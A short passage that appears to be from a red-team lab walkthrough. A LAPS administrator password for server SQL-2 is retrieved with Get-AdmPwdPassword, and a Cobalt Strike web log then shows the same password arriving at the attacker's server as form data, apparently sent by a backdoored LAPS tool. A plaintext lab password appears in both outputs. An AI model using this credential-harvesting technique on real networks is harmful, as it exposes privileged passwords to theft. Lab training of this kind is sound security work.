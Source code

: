 As nlamb on Workstation 1, grab the LAPS password for a computer.

```
PS C:\Users\nlamb> Get-AdmPwdPassword -ComputerName sql-2 | fl

ComputerName        : SQL-2
DistinguishedName   : CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io
Password            : VloWch1sc5Hl40
ExpirationTimestamp : 9/17/2022 12:46:28 PM
```

You should see a corresponding hit in your CS weblog.

```
09/14 11:49:32 visit (port 80) from: 10.10.122.254
	Request: GET /
	Response: 404 Not Found
	null
	= Form Data=
	computer   = SQL-2
	pass       = VloWch1sc5Hl40
```